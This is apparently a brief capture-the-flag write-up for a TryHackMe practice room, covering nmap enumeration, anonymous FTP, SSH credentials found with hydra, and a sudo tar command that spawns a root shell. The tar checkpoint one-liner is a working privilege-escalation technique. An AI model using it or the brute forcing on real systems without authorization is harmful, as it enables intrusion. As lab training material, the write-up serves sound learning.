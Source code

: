 #Easy room to practice basic enumeration and privilege escalation in linux

##Nmap scan found the following ports

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
http-server-header: Apache/2.4.18 (Ubuntu)
```
##FTP allows anonymous login

```
found locks.txt & task.txt files in FTP directory
```

##Found login and password to ssh using hydra

```
user: ***
password: *******************

```
##Found flag1: `THM{*****_*********}`

##Using sudo -l found that user can run tar as sudo 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
opens a shell as root and then found root flag under/root/root.txt

##Found flag2:`THM{******_******}`
